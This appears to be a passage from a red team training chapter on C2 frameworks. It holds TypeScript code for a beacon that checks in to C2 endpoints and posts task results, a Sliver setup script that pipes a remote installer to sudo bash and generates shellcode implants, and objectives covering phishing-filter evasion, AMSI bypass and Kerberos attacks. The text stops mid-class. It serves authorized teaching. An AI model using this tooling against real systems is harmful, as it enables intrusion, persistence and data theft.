


# Chapter 13: Advanced Red Team Operations & C2 Frameworks

> **Prereq:** Chapters 10 (Pentesting), 11 (SOC Threat Hunting), 12 (Malware Analysis)
> **Target Audience:** Red team operators, penetration testers, adversary emulation engineers, C2 developers

---

## Learning Objectives

By the end of this chapter, you will be able to:

<!-- Image Gallery -->
<section class="lesson-visuals" aria-label="Visual learning resources">
  <header><span>VISUAL LEARNING</span><h2>See it. Review it. Remember it.</h2></header>
  <a class="lesson-visual-card" href="../../assets/images/lessons/cyber-security/13-red-team-c2/handwritten-notes.png" target="_blank" rel="noopener">
    
    <span><strong>Handwritten notes</strong>Condensed notes for deliberate review.</span>
  </a>
  <a class="lesson-visual-card" href="../../assets/images/lessons/cyber-security/13-red-team-c2/sticky-notes.png" target="_blank" rel="noopener">
    
    <span><strong>Sticky-note revision</strong>Fast recall prompts for revision.</span>
  </a>
  <a class="lesson-visual-card" href="../../assets/images/lessons/cyber-security/13-red-team-c2/visual-explanation.png" target="_blank" rel="noopener">
    
    <span><strong>Visual concept guide</strong>A connected explanation of the key ideas.</span>
  </a>
</section>
<!-- End Image Gallery -->


1. Execute the full red team kill chain: Planning -> Recon -> Initial Access -> Persistence -> Lateral Movement -> Exfiltration -> Reporting.
2. Deploy and configure C2 frameworks — Cobalt Strike (Malleable C2 profiles, beaconing, BOFs), Sliver (mTLS/HTTP/DNS operators), and Covenant (ASP.NET, gRPC staging).
3. Design and execute phishing campaigns using GoPhish with SMTP relay, evaded SPF/DKIM/DMARC checks, and tracking pixel analytics.
4. Map adversary emulation to MITRE ATT&CK, execute Atomic Red Team tests, and simulate APT29 and APT41 TTPs.
5. Implement evasion techniques: AMSI bypass, ETW patching, Hell's Gate/Halo's Gate syscall direct, sandbox detection.
6. Generate payloads in multiple formats (shellcode, sRDI, PIC) using msfvenom, Donut, and custom TypeScript tooling.
7. Execute lateral movement via WMI, PsExec, DCOM, SMB exec, WinRM, Pass-the-Hash, and Overpass-the-Hash.
8. Perform Kerberos attacks: Kerberoasting, AS-REP roasting, Silver/Golden ticket forging, DCSync, Skeleton Key.
9. Build TypeScript tooling for C2 beacon simulation, Malleable C2 profile parsing, AMSI bypass generation, lateral movement orchestration, PtH simulation, Kerberos ticket manipulation, phishing campaign management, and payload generation.

---

## Chapter at a Glance

| Section | Key Concept | Why It Matters |
|---------|-------------|----------------|
| Red Team Methodology | Full kill chain from planning to reporting | Foundational process for every red team engagement |
| C2 Frameworks — Cobalt Strike | Malleable C2 profiles, beaconing, stageless/staged payloads, BOFs | Industry-standard C2 with unmatched customization |
| C2 Frameworks — Sliver | Open-source, mTLS/HTTP/DNS, operator/armory ecosystem | Free alternative with modern Go-based architecture |
| C2 Frameworks — Covenant | ASP.NET Core, gRPC staging, dynamic compilation | Innovative .NET-based C2 with real-time UI |
| Phishing Operations | SMTP relay, GoPhish, SPF/DKIM/DMARC evasion, tracking | Primary initial access vector in 80%+ of breaches |
| Adversary Emulation | MITRE ATT&CK mapping, Atomic Red Team, APT emulation | Measure detection coverage with real TTPs |
| Evasion Techniques | AMSI bypass, ETW patching, syscall direct, sandbox detection | Critical for operating in modern EDR/XDR environments |
| Payload Generation | Shellcode, sRDI, PIC, multiple output formats | Deliver payloads in any required format |
| Lateral Movement | WMI, PsExec, DCOM, SMB, WinRM, PtH, Overpass-the-Hash | Move through networks without triggering alarms |
| Kerberos Attacks | Kerberoasting, AS-REP, Silver/Golden, DCSync, Skeleton Key | Compromise an entire domain with a single technique |

---

## 1. Red Team Methodology — The Full Kill Chain

### 1.1 The Red Team Kill Chain


A red team engagement follows a structured, iterative process modeled on real adversary operations. Unlike a standard penetration test that checks boxes, a red team engagement is objective-driven — simulate a specific threat actor against a defined target.

```
                         RED TEAM KILL CHAIN
+----------+----------+----------+----------+----------+----------+-----------+
| PLANNING |  RECON   | INITIAL  | PERSIST  | LATERAL  |  EXFIL   | REPORTING |
|          |          | ACCESS   |          | MOVEMENT |          |           |
+----------+----------+----------+----------+----------+----------+-----------+
| ROE      | OSINT    | Phishing | Backdoor | Pivoting | Data     | Executive |
| Scope    | Passive  | Exploit  | C2       | Protocol | Staging  | Summary   |
| CoA      | Active   | Creds    | Schedule | Hop      | Encrypt  | Findings  |
+----------+----------+----------+----------+----------+----------+-----------+
```

**Phase 1 — Planning:**
- Define Rules of Engagement (ROE): target scope, excluded hosts, time windows, data handling
- Select adversary to emulate (e.g., APT29 for stealth operations)
- Identify crown jewels and primary objectives
- Set communication protocol (callout schedule, reporting cadence)

**Phase 2 — Reconnaissance:**
- Passive: WHOIS, DNS enumeration, Shodan, Censys, Google dorking, social media OSINT
- Active: Nmap scanning, directory brute-force, subdomain enumeration, technology fingerprinting
- Target validation: verify scope, identify active systems, build network maps

**Phase 3 — Initial Access:**
- Phishing: crafted emails with weaponized attachments or links
- Exploit: web application CVEs, unpatched services, SQL injection
- Credential theft: password spraying, credential stuffing, default credentials
- Supply chain: compromised dependencies, CI/CD pipeline attacks

**Phase 4 — Persistence:**
- C2 beacon deployment: scheduled tasks, WMI event subscriptions, service installations
- Backdoor accounts: create local/domain users, modify ACLs, SID history injection
- Boot persistence: registry run keys, startup folder, DLL search-order hijacking
- Credential dumping: LSASS, SAM, NTDS.dit, DPAPI, browser cookies

**Phase 5 — Lateral Movement:**
- Pass-the-Hash (PtH), Overpass-the-Hash (OPtH), Pass-the-Ticket (PtT)
- Remote execution: WMI, PsExec, WinRM, DCOM, SMB exec, Scheduled Tasks
- Remote desktop: RDP session hijacking, credential relay
- Network pivoting: SSH tunneling, SOCKS proxy, port forwarding

**Phase 6 — Exfiltration:**
- Data staging: collect, compress, encrypt target data
- Exfiltration channels: DNS tunneling, HTTPS, SMTP, ICMP, SMB over QUIC
- Cover tracks: clear event logs, modify timestamps, remove artifacts

**Phase 7 — Reporting:**
- Executive summary: business impact, risk ratings, strategic recommendations
- Technical findings: detailed TTPs, evidence, timelines, detection gaps
- Remediation roadmap: prioritized fixes with MITRE ATT&CK mappings

### 1.2 Rules of Engagement (ROE) Template


```typescript
// roe-contract.ts — Rules of Engagement Definition and Validation

interface RulesOfEngagement {
  engagementId: string;
  clientName: string;
  startDate: Date;
  endDate: Date;
  scope: ScopeDefinition;
  exclusions: Exclusion[];
  communicationPlan: CommunicationPlan;
  dataHandling: DataHandlingPolicy;
  escalationPath: EscalationContact[];
}

interface ScopeDefinition {
  inScopeDomains: string[];
  inScopeNetworks: string[];
  inScopeApplications: string[];
  inScopePersonas: string[];
  objectiveGroups: ObjectiveGroup[];
}

interface ObjectiveGroup {
  name: string;
  successCriteria: string[];
  criticality: 'low' | 'medium' | 'high' | 'critical';
}

interface Exclusion {
  type: 'host' | 'network' | 'time' | 'technique' | 'person';
  value: string;
  reason: string;
}

interface CommunicationPlan {
  calloutSchedule: string;
  emergencyStopContact: string;
  reportingCadenceHours: number;
  silentMode: boolean;
}

interface DataHandlingPolicy {
  allowScreenCapture: boolean;
  allowCredentialHarvesting: boolean;
  maxDataExfilMB: number;
  dataDestruction: boolean;
  piiHandling: 'mask' | 'avoid' | 'allowed';
}

interface EscalationContact {
  name: string;
  role: string;
  email: string;
  phone: string;
  priority: 1 | 2 | 3;
}

function validateROE(roe: RulesOfEngagement): { valid: boolean; issues: string[] } {
  const issues: string[] = [];
  if (roe.exclusions.length === 0) {
    issues.push('WARNING: No exclusions defined - all systems may be targeted');
  }
  if (!roe.communicationPlan.emergencyStopContact) {
    issues.push('ERROR: Emergency stop contact is required');
  }
  if (roe.objectiveGroups.length === 0) {
    issues.push('ERROR: At least one objective group must be defined');
  }
  if (roe.dataHandling.maxDataExfilMB > 500) {
    issues.push('WARNING: Data exfiltration >500MB may cause network disruption');
  }
  return { valid: issues.filter(i => i.startsWith('ERROR')).length === 0, issues };
}
```

### 1.3 Engagement Lifecycle — Time Allocation


| Phase | Typical Duration | Deliverables |
|-------|-----------------|--------------|
| Planning & ROE | 1-2 weeks | ROE document, threat model, adversary selection |
| Reconnaissance | 2-5 days | Attack surface map, technology stack, user lists |
| Initial Access | 1-7 days | Compromised host, C2 beacon established |
| Persistence & Lateral Movement | 3-14 days | Multiple footholds, domain compromise, crown jewel access |
| Exfiltration & Cleanup | 1-2 days | Data extracts, log cleanup, artifacts removed |
| Reporting | 3-5 days | Executive report, technical report, detection findings |

---

## 2. C2 Frameworks — Cobalt Strike

### 2.1 Architecture Overview


Cobalt Strike is the industry-standard red team C2 framework. Its architecture revolves around a Team Server (Java-based) that operators connect to via the Cobalt Strike client, and Beacons that execute on compromised hosts.

```
                 COBALT STRIKE ARCHITECTURE

+----------+     +--------------+     +-------------------------+
|Operator 1|---->|              |     |  HTTP(S) / DNS / SMB     |
|(Client)  |     |              |     |    +----------+         |
+----------+     | Team Server  |<===>|    | Beacon 1 |         |
                 | (Java,50050) |     |    | (Victim) |         |
+----------+     |              |     |    +----------+         |
|Operator 2|---->|              |     |                         |
|(Client)  |     | +----------+ |     |    +----------+         |
+----------+     | |Malleable | |     |    | Beacon 2 |         |
                 | | C2       | |     |    | (Victim) |         |
+----------+     | | Profile  | |     |    +----------+         |
|Aggressor |---->| +----------+ |     |                         |
| Scripts  |     | +----------+ |     |    +----------+         |
+----------+     | | Data     | |     |    | Pivot    |         |
                 | | Store    | |     |    | Beacon   |         |
                 | +----------+ |     |    +----------+         |
                 +--------------+     +-------------------------+
```

**Key Components:**
- Team Server (port 50050): Central coordination. Operators connect over TCP; beacons over HTTP/HTTPS/DNS/SMB.
- Beacon: Lightweight payload on victim. Supports sleep cycles, tasking, inline execution, module loading.
- Malleable C2 Profile: XML/config defining all observable C2 traffic characteristics.
- Listener: Server-side component accepting beacon callbacks (HTTP, HTTPS, DNS, SMB, TCP).
- Aggressor Script: Scripting language extending Cobalt Strike with custom UI and automation.

### 2.2 Malleable C2 Profiles — Deep Dive


A Malleable C2 profile defines every observable aspect of beacon-to-teamserver communication. Modern EDR and network detection fingerprint C2 by JA3/S, JARM, HTTP header ordering, URI patterns, and timing.

```typescript
// malleable-parser.ts — Malleable C2 Profile Parser (Profile to JSON)

interface HttpProfile {
  block: 'client' | 'server';
  headers: HeaderDirective[];
  parameters: ParameterDirective[];
  uri: string;
  verb?: 'GET' | 'POST' | 'HEAD';
}

interface HeaderDirective { name: string; value: string; append: boolean; }
interface ParameterDirective { name: string; value: string; mask: boolean; }

interface HttpGetDirectives {
  uri: string; verb: 'GET' | 'POST' | 'HEAD';
  client: HttpProfileBlock; server: HttpProfileBlock;
}

interface HttpProfileBlock {
  headers: HeaderDirective[]; parameters: ParameterDirective[];
  metadata?: HttpMetadataBlock; output?: HttpOutputBlock;
}

interface HttpMetadataBlock {
  base64: boolean; base64url: boolean; base64_raw: 'true' | 'false';
  prepend: string; append: string; parameter: string; header: string;
}

interface HttpOutputBlock {
  base64: boolean; base64url: boolean; print: string;
  prepend: string; append: string;
}

interface MalleableProfile {
  name: string; sleeptime: string; jitter: string; maxdns: string;
  httpget: HttpGetDirectives; httppost: HttpGetDirectives;
  httpStager: HttpStagerConfig; userAgent: string;
  postex: PostExConfig; stage: StageConfig; processInject: ProcessInjectConfig;
}

interface HttpStagerConfig { uri_x86: string; uri_x64: string; }
interface PostExConfig { obfuscate: boolean; smartInject: boolean; amsi_disable: number; }

interface StageConfig {
  opaque: string; cleanup: boolean; sleep_mask: boolean; obfuscate: boolean;
  stomppe: boolean; module_x64: string; module_x86: string; userwx: boolean;
  entry_point: string; transform_x86: TransformDirective[];
  transform_x64: TransformDirective[]; string_replace: StringReplace[];
}

interface TransformDirective { type: 'strrep' | 'prepend' | 'append'; value?: string; }
interface StringReplace { original: string; replacement: string; }
interface ProcessInjectConfig { name: string; transform_x86: TransformDirective[]; transform_x64: TransformDirective[]; min_alloc: string; startrwx: boolean; userwx: boolean; }

class MalleableProfileParser {
  parse(rawContent: string): MalleableProfile {
    const lines = rawContent.split('\n');
    const profile: Partial<MalleableProfile> = {};
    let currentBlock: string[] = [];
    let blockName = '';

    for (const line of lines) {
      const t = line.trim();
      if (t.startsWith('#') || t === '') continue;
      if (t.includes('{') && !t.includes('}')) { blockName = t.replace(/\s*\{.*/, '').trim(); currentBlock = []; continue; }
      if (t === '}') { this.processBlock(profile, blockName, currentBlock); currentBlock = []; blockName = ''; continue; }
      if (blockName) { currentBlock.push(t); }
      else { const [k, ...v] = t.split(/\s+/); if (k && v.length > 0) (profile as any)[k] = v.join(' ').replace(/^"(.*)"$/, '$1'); }
    }
    return profile as MalleableProfile;
  }

  private processBlock(profile: Partial<MalleableProfile>, blockName: string, lines: string[]): void {
    const key = blockName.toLowerCase().replace(/-/g, '_');
    if (key === 'httpget' || key === 'httppost') (profile as any)[key] = this.parseHttpGetBlock(lines);
    else if (key === 'http-stager') profile.httpStager = this.parseStagerBlock(lines);
    else if (key === 'stage') profile.stage = this.parseStageBlock(lines);
    else if (key === 'process-inject') profile.processInject = this.parseProcessInjectBlock(lines);
    else if (key === 'post-ex') profile.postex = this.parsePostExBlock(lines);
  }

  private parseHttpGetBlock(lines: string[]): HttpGetDirectives {
    const r: Partial<HttpGetDirectives> = {};
    const cl: string[] = []; const sl: string[] = [];
    let inC = false; let inS = false;
    for (const line of lines) {
      const t = line.trim();
      if (t.startsWith('set')) { const m = t.match(/set\s+(\S+)\s+"([^"]*)"/); if (m) { if (m[1]==='uri') r.uri=m[2]; if (m[1]==='verb') r.verb=m[2] as any; } }
      else if (t === 'client {') { inC = true; inS = false; }
      else if (t === 'server {') { inS = true; inC = false; }
      else if (t === '}') { inC = false; inS = false; }
      else if (inC) cl.push(t);
      else if (inS) sl.push(t);
    }
    r.client = this.parseProfileBlock(cl);
    r.server = this.parseProfileBlock(sl);
    return r as HttpGetDirectives;
  }

  private parseProfileBlock(lines: string[]): HttpProfileBlock {
    const b: Partial<HttpProfileBlock> = { headers: [], parameters: [] };
    for (const line of lines) {
      const t = line.trim();
      if (t.startsWith('header')) { const m = t.match(/header\s+"([^"]*)"\s+"([^"]*)"/); if (m) b.headers!.push({ name: m[1], value: m[2], append: false }); }
      else if (t.startsWith('parameter')) { const m = t.match(/parameter\s+"([^"]*)"\s+"([^"]*)"/); if (m) b.parameters!.push({ name: m[1], value: m[2], mask: false }); }
      else if (t.startsWith('metadata')) { b.metadata = { base64: t.includes('base64'), base64url: t.includes('base64url'), base64_raw: t.includes('base64-raw')?'true':'false', prepend: t.match(/prepend\s+"([^"]*)"/)?.[1]||'', append: t.match(/append\s+"([^"]*)"/)?.[1]||'', parameter: t.match(/parameter\s+"([^"]*)"/)?.[1]||'', header: t.match(/header\s+"([^"]*)"/)?.[1]||'' }; }
      else if (t.startsWith('output')) { b.output = { base64: t.includes('base64'), base64url: t.includes('base64url'), print: t.match(/print\s+"([^"]*)"/)?.[1]||'', prepend: t.match(/prepend\s+"([^"]*)"/)?.[1]||'', append: t.match(/append\s+"([^"]*)"/)?.[1]||'' }; }
    }
    return b as HttpProfileBlock;
  }

  private parseStagerBlock(lines: string[]): HttpStagerConfig {
    const s: Partial<HttpStagerConfig> = {};
    for (const line of lines) { const m = line.match(/set\s+(\S+)\s+"([^"]*)"/); if (m) (s as any)[m[1].replace(/-/g,'_')] = m[2]; }
    return s as HttpStagerConfig;
  }

  private parseStageBlock(lines: string[]): StageConfig {
    const s: Partial<StageConfig> = { transform_x86: [], transform_x64: [], string_replace: [] };
    for (const line of lines) {
      const t = line.trim(); const m = t.match(/set\s+(\S+)\s+"([^"]*)"/);
      if (m) { const bools = ['sleep_mask','obfuscate','cleanup','stomppe','userwx']; if (bools.includes(m[1])) (s as any)[m[1].replace(/-/g,'_')] = m[2]==='true'; else (s as any)[m[1].replace(/-/g,'_')] = m[2]; }
      else if (t.startsWith('string')) { const sm = t.match(/string\s+"([^"]*)"\s+"([^"]*)"/); if (sm) s.string_replace!.push({ original: sm[1], replacement: sm[2] }); }
    }
    return s as StageConfig;
  }

  private parseProcessInjectBlock(lines: string[]): ProcessInjectConfig {
    const i: Partial<ProcessInjectConfig> = {};
    for (const line of lines) { const m = line.match(/set\s+(\S+)\s+"([^"]*)"/); if (m) (i as any)[m[1]] = m[2]; }
    return i as ProcessInjectConfig;
  }

  private parsePostExBlock(lines: string[]): PostExConfig {
    const p: Partial<PostExConfig> = {};
    for (const line of lines) { const m = line.match(/set\s+(\S+)\s+"([^"]*)"/); if (m) { if (m[1]==='obfuscate'||m[1]==='smart_inject') (p as any)[m[1]]=m[2]==='true'; else if (m[1]==='amsi_disable') p.amsi_disable=parseInt(m[2]); } }
    return p as PostExConfig;
  }

  toJSON(profile: MalleableProfile): string { return JSON.stringify(profile, null, 2); }
}
```

**Malleable Profile Key Parameters:**

| Directive | Description | Example Value |
|-----------|-------------|---------------|
| sleeptime | Milliseconds between beacon check-ins | 60000 (60s) |
| jitter | Random delay percentage added to sleep | 20 (20% jitter) |
| maxdns | Maximum DNS label length | 255 |
| http-get.uri | URI path for GET requests | /gp/css/signin/select.html |
| stage.obfuscate | Obfuscate the reflective DLL loader | true |
| stage.sleep_mask | Encrypt beacon in memory during sleep | true |
| stage.stomppe | Overwrite mapped PE with section contents | true |
| post-ex.amsi_disable | Number of AMSI bypasses to apply | 1 |
| process-inject.startrwx | Start with RWX permissions (bad OPSEC) | false |

### 2.3 Beacon Types — Staged vs Stageless


| Property | Staged | Stageless |
|----------|--------|-----------|
| Delivery | Small stager (~4KB) fetches full beacon | Full beacon in one payload |
| Network | Two connections: stager + callback | One connection: callback |
| Detection | Stager download fingerprinted easily | Harder to detect |
| Size | Stager tiny (fits in macro) | Larger (200KB-500KB) |
| Use Case | Phishing macros, limited space | Direct deployment, reliability |

### 2.4 C2 Communication Flow Diagram




### 2.5 C2 Beacon Simulator (TypeScript)


```typescript
// c2-beacon-simulator.ts — Beacon with Jitter, Sleep, Tasking

interface BeaconConfig {
  callbackInterval: number; jitterPercent: number; maxRetries: number;
  c2Endpoints: string[]; userAgent: string; killDate: Date;
}

interface BeaconTask {
  id: string; command: string; args: string[];
  status: 'pending' | 'running' | 'completed' | 'failed'; output: string;
}

type BeaconState = 'sleeping' | 'connecting' | 'tasking' | 'executing' | 'error' | 'dead';

class C2Beacon {
  private config: BeaconConfig;
  private state: BeaconState = 'sleeping';
  private checkinCount = 0;
  private failedConnections = 0;
  private pendingTasks: BeaconTask[] = [];
  private completedTasks: BeaconTask[] = [];
  private agentId: string;
  private metadata: Record<string, string>;

  constructor(config: BeaconConfig) {
    this.config = config;
    this.agentId = this.generateId();
    this.metadata = { computerName: 'WS-01', userName: 'user', domain: 'domain.local', osVersion: '10.0.19041', processName: 'explorer.exe' };
  }

  start(): void {
    console.log('[BEACON] Starting interval ' + this.config.callbackInterval + 'ms, ' + this.config.jitterPercent + '% jitter');
    if (new Date() >= this.config.killDate) { this.state = 'dead'; return; }
    this.scheduleNext();
  }

  stop(): void { this.state = 'dead'; }

  queueTask(command: string, args: string[] = []): string {
    const task: BeaconTask = { id: 'T-' + Date.now(), command, args, status: 'pending', output: '' };
    this.pendingTasks.push(task);
    return task.id;
  }

  private scheduleNext(): void {
    const j = this.config.jitterPercent / 100;
    const delay = Math.max(this.config.callbackInterval * (1 + (Math.random() * 2 - 1) * j), 1000);
    this.state = 'sleeping';
    setTimeout(() => this.checkin(), delay);
  }

  private async checkin(): Promise<void> {
    this.state = 'connecting';
    this.checkinCount++;
    try {
      const response = await this.sendCallback();
      this.failedConnections = 0;
      if (response.tasks) for (const t of response.tasks) this.pendingTasks.push(t);
      await this.executeTasks();
      await this.sendResults();
      this.scheduleNext();
    } catch (err) {
      this.failedConnections++;
      if (this.failedConnections >= this.config.maxRetries) { this.state = 'dead'; }
      else { setTimeout(() => this.checkin(), Math.min(60000, 5000 * Math.pow(2, this.failedConnections))); }
    }
  }

  private async sendCallback(): Promise<any> {
    for (const ep of this.config.c2Endpoints) {
      try {
        const res = await fetch(ep, { method: 'POST', headers: { 'User-Agent': this.config.userAgent }, body: Buffer.from(JSON.stringify({ id: this.agentId })).toString('base64') });
        if (res.ok) return JSON.parse(Buffer.from(await res.text(), 'base64').toString());
      } catch { continue; }
    }
    throw new Error('C2 endpoints failed');
  }

  private async executeTasks(): Promise<void> {
    while (this.pendingTasks.length > 0) {
      const task = this.pendingTasks.shift()!;
      task.status = 'running';
      task.output = await this.runCommand(task.command, task.args);
      task.status = 'completed';
      this.completedTasks.push(task);
    }
  }

  private async runCommand(cmd: string, args: string[]): Promise<string> {
    if (cmd === 'whoami') return this.metadata.domain + '\\' + this.metadata.userName;
    if (cmd === 'ipconfig') return 'IPv4: 10.0.0.' + Math.floor(Math.random() * 254);
    if (cmd === 'sleep' && args[0]) { this.config.callbackInterval = parseInt(args[0]); return 'Sleep set to ' + args[0] + 'ms'; }
    return '[' + cmd + '] completed.';
  }

  private async sendResults(): Promise<void> {
    if (this.completedTasks.length === 0) return;
    const payload = Buffer.from(JSON.stringify({ id: this.agentId, results: this.completedTasks })).toString('base64');
    for (const ep of this.config.c2Endpoints) {
      try { await fetch(ep + '/results', { method: 'POST', body: payload }); break; } catch { continue; }
    }
    this.completedTasks = [];
  }

  getStatus() { return { agentId: this.agentId, state: this.state, checkins: this.checkinCount }; }
  private generateId(): string { return Array.from({length:32},()=>'0123456789abcdef'[Math.floor(Math.random()*16)]).join(''); }
}
```

---

## 3. C2 Frameworks — Sliver

### 3.1 Sliver Architecture


Sliver is an open-source, Go-based C2 framework developed by BishopFox. It supports mTLS, HTTP(S), DNS, and WireGuard-based C2 channels. Sliver uses a server-client model where operators connect to the Sliver server via the Sliver client or gRPC API.

**Key Differentiators from Cobalt Strike:**
- Completely free and open-source (BSD-3)
- Written in Go (cross-platform implants)
- Native mTLS with mutual authentication
- Built-in armory for community-shared profiles/aliases
- Stage listeners for staged payloads
- Operator/player role-based access control
- Full gRPC API for automation

### 3.2 Sliver C2 Setup Guide — Full Deployment


```bash
# STEP 1: Download and Install Sliver Server (Ubuntu 22.04)
curl -sL https://sliver.sh/install | sudo bash
wget https://github.com/BishopFox/sliver/releases/latest/download/sliver-server_linux
sudo mv sliver-server_linux /usr/local/bin/sliver-server
sudo chmod +x /usr/local/bin/sliver-server

# STEP 2: Start the Sliver Server
sliver-server

# STEP 3: Create Operators
new-operator --name red-team-lead --lhost your-server-ip --save ./configs/
new-operator --name operator-1 --lhost your-server-ip --save ./configs/

# STEP 4: Start Listeners
mtls --lhost 0.0.0.0 --lport 443
http --lhost 0.0.0.0 --lport 80 --domain acme-redteam.com
https --lhost 0.0.0.0 --lport 443 --domain cdn.acme-redteam.com
dns --lhost 0.0.0.0 --lport 53 --domains dns1.acme-redteam.com

# STEP 5: Generate Implants
generate --mtls your-server-ip --os windows --arch amd64 --name acme-beacon --save ./payloads/
generate --https cdn.acme-redteam.com --os windows --arch amd64 --name stealth --save ./payloads/ --max-errors 10 --days 30 --format shellcode

# STEP 6: Interact with Beacons
implants      # List all active beacons
use <id>      # Select beacon
info          # Show details
shell         # Spawn interactive shell
sideload /path/to/bof.o   # Execute BOF
execute-assembly /path/to/SharpHound.exe
```

### 3.3 Sliver Operator Configuration (TypeScript)


```typescript
// sliver-operator.ts — Sliver Operator Configuration and Management

interface SliverConfig { serverHost: string; serverPort: number; tlsConfig: TLSConfig; }
interface TLSConfig { caCert: string; cert: string; key: string; mutualTLS: boolean; }
interface SliverOperator { name: string; config: SliverConfig; token: string; permissions: OperatorPermissions; }
interface OperatorPermissions { canGenerate: boolean; canEquipArmory: boolean; maxImplants: number; allowedProtocols: string[]; allowedTargets: string[]; }
interface SliverImplant { id: string; name: string; os: string; arch: string; transport: string; endpoint: string; beaconInterval: number; jitter: number; active: boolean; }
interface ArmoryPackage { name: string; version: string; type: string; description: string; commands: string[]; source: string; }

class SliverManager {
  private operators: Map<string, SliverOperator> = new Map();
  private implants: Map<string, SliverImplant> = new Map();
  private armory: Map<string, ArmoryPackage> = new Map();
  private config: SliverConfig;

  constructor(config: SliverConfig) { this.config = config; }

  createOperator(name: string, perms: Partial<OperatorPermissions>): SliverOperator {
    const op: SliverOperator = {
      name, config: this.config, token: this.generateToken(),
      permissions: { canGenerate: perms.canGenerate ?? true, canEquipArmory: perms.canEquipArmory ?? true, maxImplants: perms.maxImplants ?? 50, allowedProtocols: perms.allowedProtocols ?? ['mtls','https'], allowedTargets: perms.allowedTargets ?? ['*'] },
    };
    this.operators.set(name, op); return op;
  }

  startListener(protocol: string, port: number, domain?: string): void {
    console.log('[SLIVER] ' + protocol.toUpperCase() + ' listener on :' + port + (domain ? ' for ' + domain : ''));
  }

  generateImplant(cfg: { name: string; transport: string; endpoint: string; os: string; arch: string; beaconInterval?: number; jitter?: number; }): SliverImplant {
    const imp: SliverImplant = { id: 'IMP-' + Date.now().toString(36), name: cfg.name, os: cfg.os, arch: cfg.arch, transport: cfg.transport, endpoint: cfg.endpoint, beaconInterval: cfg.beaconInterval || 30, jitter: cfg.jitter || 15, active: true };
    this.implants.set(imp.id, imp); return imp;
  }

  executeTask(implantId: string, command: string, args: string[]): string {
    const imp = this.implants.get(implantId);
    if (!imp || !imp.active) throw new Error('Implant not found');
    return '[' + imp.name + '] ' + command + ' ' + args.join(' ');
  }

  installArmory(pkg: ArmoryPackage): void { this.armory.set(pkg.name, pkg); console.log('[SLIVER] Armory ' + pkg.name + ' installed'); }
  private generateToken(): string { const c='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_-'; return Array.from({length:64},()=>c[Math.floor(Math.random()*c.length)]).join(''); }
